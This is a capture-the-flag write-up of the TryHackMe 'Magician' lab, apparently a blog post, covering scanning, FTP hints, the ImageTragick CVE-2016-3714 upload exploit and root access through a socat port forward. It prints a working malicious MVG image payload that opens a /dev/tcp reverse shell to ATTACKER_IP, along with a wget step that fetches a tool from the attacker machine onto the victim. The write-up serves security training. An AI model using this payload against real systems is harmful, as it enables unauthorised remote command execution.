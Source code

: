 ```yaml
---
layout: post
title: TryHackMe/Easy/Magician
abbrlink: ab48ac3b5bb64946bc0dc6fd4f0b9919
tags:
  - port forwarding
  - imagemagick
  - cve-2016-3714
  - web
  - imagetragick
  - linux
categories:
  - Labs
  - TryHackMe
  - 1. Easy
  - Magician
date: 1724710544064
updated: 1724904157036
---
```


<https://tryhackme.com/r/room/magician>

# Scenario

Note: this machine needs about 7 minutes to start up, please be patient :)

Please add the IP address of this machine with the hostname "magician" to your /etc/hosts file on Linux before you start.
On Windows, the hosts file should be at C:\Windows\System32\drivers\etc\hosts.

Use the hostname instead of the IP address if you want to upload a file. This is required for the room to work correctly ;)

Have fun and use your magic skills!

# Enumeration

## \[+] 10.10.200.16 - magician

We will add the target IP address and a domain name to our `/etc/hosts` file. Using `sudo sh -c`, executes the entire command as a subshell as `root` where we will then use `echo` to create a new line with `\n` followed by our target IP and the domain name we give it.

```sh
sudo sh -c 'echo "\n10.10.200.16 magician" >> /etc/hosts'
```

Then `export` the IP address to the environment variable `RHOSTS` so I can use `$RHOSTS` instead of typing the IP address every time.

```sh
export RHOSTS=10.10.200.16
```

First, I run a quick scan with [rustscan](https://github.com/RustScan/RustScan) and a longer [nmap](https://nmap.org/) stealth scan with `-Pn` mode enabled which will treat all hosts as online which helps find other hosts that block ICMP packets:

```sh
rustscan -a $RHOSTS --ulimit 5000 -b 4500 -t 2000 --range 1-65535 -- -sC -sV
sudo nmap -v -Pn -sS -p- -A --min-rate=1000 -T4 $RHOSTS -oN nmap.txt
```

## Port 21 - FTP

We can try to explore the FTP server using an anonymous login and hit the `ENTER` key when prompted for a password. There will be an intentionally long delay before we see a message from the administrator:

```sh
ftp anonymous@magician
```

```plaintext
230-Huh? The door just opens after some time?
You're quite the patient one, aren't ya, it's a thing called 'delay_successful_login' in /etc/vsftpd.conf ;)
Since you're a rookie, this might help you to get started: https://imagetragick.com.
You might need to do some little tweaks though...
```

![8732cf214cf03196c9b03a86ebe4287a.png](/resources/faa376b8be3b41c78b29ad2563fe76b7.png)

# Initial Foothold

## Port 8081 - HTTP

On this port we will find the image converter web application. It takes PNG images, converts them into JPG and displays them in a list:

![a68f34bbcf7aa2befbf6ac7bfb26564c.png](/resources/92e275022a6f481288fef7a901eecb16.png)

From the hint we got when connecting to the FTP server, we can search for "imagetragick" or [visit the URL](https://imagetragick.com/) in the hint. You can also find payloads in the [PayloadAllTheThings repository](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Picture%20ImageMagick). This exploit has the ID CVE-2016-3714.

We will create a malicious PNG file using [nano](https://linux.die.net/man/1/nano) or any other text editor:

```sh
nano exploit.png
```

Then paste the following and edit the IP and port of your attacking machine:

```
push graphic-context
encoding "UTF-8"
viewbox 0 0 1 1
affine 1 0 0 1 0 0
push graphic-context
image Over 0,0 1,1 '|/bin/sh -i > /dev/tcp/<ATTACKER_IP>/<PORT> 0<&1 2>&1'
pop graphic-context
pop graphic-context
```

![31600fd27718b870b20f7cd094e541d2.png](/resources/72cb72d005f2478ba8935963cf725279.png)

Then, press `CTRL+X` and enter `Y` to save then exit.

Next, we open our [Netcat](https://linux.die.net/man/1/nc) listener before sending our payload:

```sh
nc -nvlp 4444
```

Back on the image conversion website, we upload our malicious file `exploit.png` at which point the page will hang:

![a48de83705e4b4409092718006bfdc95.png](/resources/58edf3a5a3f44c60bfc4ccbe7f74067c.png)

### \[-] magician\@magician

Checking our Netcat listener, we should have a connection back from the victim machine:

![77f8367693a6edc46597ad23d70e1c8b.png](/resources/5a1f8ef35cef4a3ea996bec566b68745.png)

Let's stablize the shell we just got by doing the following steps:

1. Use Python to spawn a stable shell:
   ```sh
   python3 -c 'import pty;pty.spawn("/bin/bash")'
   ```
2. `CTRL+Z` to background the current shell
3. Fix echoing and foregrounds the shell:
   ```sh
   stty raw -echo;fg
   ```
4. Set terminal to use 256 colors:
   ```sh
   export TERM=xterm-256color
   ```

We can find the user flag in `/home/magician/user.txt`:

```sh
cd /home/magician
ls -lah
cat user.txt
```

![63304239a3a65d00d3227b096495d4d9.png](/resources/63b372eef11640b09db21ce862ef5296.png)

# Privilege Escalation

### \[-] root\@magician

Inside `/home/magician/the_magic_continues`, we will find our next clue which is hinting at a service running on the local host:

```sh
magician@magician:~$ cat the_magic_continues
```

```plaintext
The magician is known to keep a locally listening cat up his sleeve, it is said to be an oracle who will tell you secrets if you are good enough to understand its meows.
```

To see all the network connections on the machine, we can use [Netstat](https://linux.die.net/man/8/netstat) with the flags `-tunlp`:

- `-t`: Displays TCP connections.
- `-u`: Displays UDP connections.
- `-n`: Shows numerical addresses instead of resolving hostnames. This means IP addresses and port numbers will be shown in numeric form rather than trying to resolve them to hostnames or service names.
- `-l`: Shows only listening sockets. This filters the output to only show ports that are currently open and waiting for incoming connections.
- `-p`: Displays the process ID (PID) and name of the program to which each socket belongs. This can be useful for identifying which processes are using which ports.

![b90862c61f2e2bb549edadaddb6dd410.png](/resources/8d44f1033dab471f946152e56d94aed7.png)

There is a service running on `127.0.0.1:6666`. We can use a [static socat binary](https://github.com/ernw/static-toolbox/releases) to forward the port so that we can access it.

On the attacking machine, after downloading the `socat` binary, host it using a Python HTTP server:

```sh
python3 -m http.server 8888
```

On the victim machine, download the file using `wget` and make it executable using `chmod +x` then run `socat` with the following parameters which will listen on port 7777 and forward the data to port 6666 locally:

```sh
cd /tmp
wget <ATTACKER_IP>:8888/socat
chmod +x socat
./socat tcp-listen:7777,reuseaddr,fork tcp:localhost:6666
```

Back on the attacking machine, we can now access this page by navigating to `http://magician:7777` in a web browser:

![c1f9c8d1e7363b22604b66ad3f8765de.png](/resources/1d2b94c42775430fafd2f762cb801250.png)

This web application will read local files and print them on the web page. We can find the root flag in `/root/root.txt`:

![db434eccce1542c6b5a3127d888eb6a6.png](/resources/25b864a4ac7d411d9225823b841e8b63.png)

The data is encoded in hex, so we can use something like [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Hex\('None'\)\&input=NTQ0ODRkN2I2ZDYxNjc2OTYzNWY2ZDYxNzk1ZjZkNjE2YjY1NWY2ZDYxNmU3OTVmNmQ2NTZlNWY2ZDYxNjQ3ZDBh) to get the plaintext:

![b3336bd4e1291399fd0e792fd25ccddf.png](/resources/82c8d525e79e4466921f5567ada342cd.png)
